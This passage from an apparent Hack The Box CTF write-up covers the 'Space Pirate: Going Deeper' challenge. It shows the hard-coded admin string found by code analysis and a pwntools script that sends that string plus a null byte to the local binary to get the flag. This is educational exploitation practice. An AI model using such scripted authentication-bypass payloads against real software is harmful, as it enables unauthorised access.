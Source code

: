 Recall the paramters which passed to the function are `1,2,3`

![](/assets/img/hackthebox/challenges writeups/Space Pirate: Going Deeper/MainFunction.png)

So the code will always check our input string and compare it to this one `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` so let's tring to pass the same string as our input

#### **Exploit**


Using the same previous exploit script we just change the payload to the following :
- The static string which we code from the code analysis before `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft`
- The `string terminator` which is a very important because without it the compare function will keep going until find the string terminator which will make the string not correct

```python
from pwn import *

# Binary filename
exe = './sp_going_deeper'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
context.arch      = 'amd64'
context.os        = 'linux'
context.endian    = 'little'
context.word_size =  64
log.info("Context Setting: " + context.arch + " " + context.os + " " + context.endian + " " + str(context.word_size))


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = process(exe)

# Wait to get the '>> ' string then send 2 to select the sec option
io.sendlineafter(b'>> ',b"2")

# Create the payload of the exploit which conatins the static String to pass the string compare function plus the 0x00 which is the string terminator
payload = flat([
    b"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",
    0x00
]) 

# Wait to get this string "[*] Username: " then send our malcious payload
log.info("Sending Payload")
io.sendlineafter(b'[*] Username: ',payload)

# Getting the Flag
log.success(f'Flag --> {io.recvline_contains(b"HTB").strip().decode()}')
```

Now let's run the exploit script

![](/assets/img/hackthebox/challenges writeups/Space Pirate: Going Deeper/Exploit2.png)

And again we got the Flag.


